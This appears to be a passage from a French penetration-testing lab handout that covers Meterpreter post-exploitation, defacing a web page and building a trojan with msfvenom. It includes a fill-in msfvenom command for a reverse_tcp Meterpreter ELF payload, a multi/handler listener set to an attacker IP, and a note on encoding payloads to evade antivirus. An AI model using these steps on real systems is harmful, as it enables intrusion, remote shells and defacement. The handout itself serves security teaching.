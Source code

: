 
Tapez les commandes `help`, `sysinfo`, `getuid`, 
`shell`,...
 





#### Defacing 
Modifiez la page web d'accueil (index.php) en y inscrivant un message de propagande 
amusant (Ex: Vive les pingouins !).



---

### Exploit 4 : Cheval de Troie (msfvenom)

L'outil `msfvenom` est inclus dans le framework metasploit. Il est la fusion
des anciens outils *msfpayload* et *msfencode*.  `msfvenom` nous servira à la
création sur mesure de payload avec possibilité d'encodage (voir même
multi-encodage) pour échapper aux antivirus par exemple.

L'outil se lance dans un terminal. Sa documentation est accessible avec l'option `-h`.

```text
msfvenom -h
```

msfvenom propose un grand nombre de **payload** (`msfvenom --list payload`).

**Astuce** : Pour connaitre les options requise à un payload, vous pouvez utiliser la *msfconsole*.

Créez et spécifiez un payload (`-p linux/x86/meterpreter/reverse_tcp`) et son format (`-f elf`). Remarquez sa taille.
La commande ci-dessous devrait génèrer un binaire au format *elf* nommé *runmeplz*.



```text
msfvenom -p ....................... -f ... LHOST=____.____.____.____ LPORT=.... > runmeplz
```

À présent, dans la *msfconsole* nous allons lancer le module d'écoute en le paramétrant avec les mêmes
 paramétres que ceux utilisés pour générer notre payload ci-avant.

```text
use exploit/multi/handler 
set payload linux/x86/meterpreter/reverse_tcp
set LPORT 4444
set LHOST ____.____.____.____ #IP attaquant (kali)
show info
exploit -j -z
```

Vérifiez que votre machine écoute sur le port 4444 avec la commande `ss -ant`.
Nous voilà prêt à recevoir une connexion en provenance de la victime.

Déployez/Copiez et lancez le payload `runmeplz` sur la machine cible (par le
moyen de votre choix).  
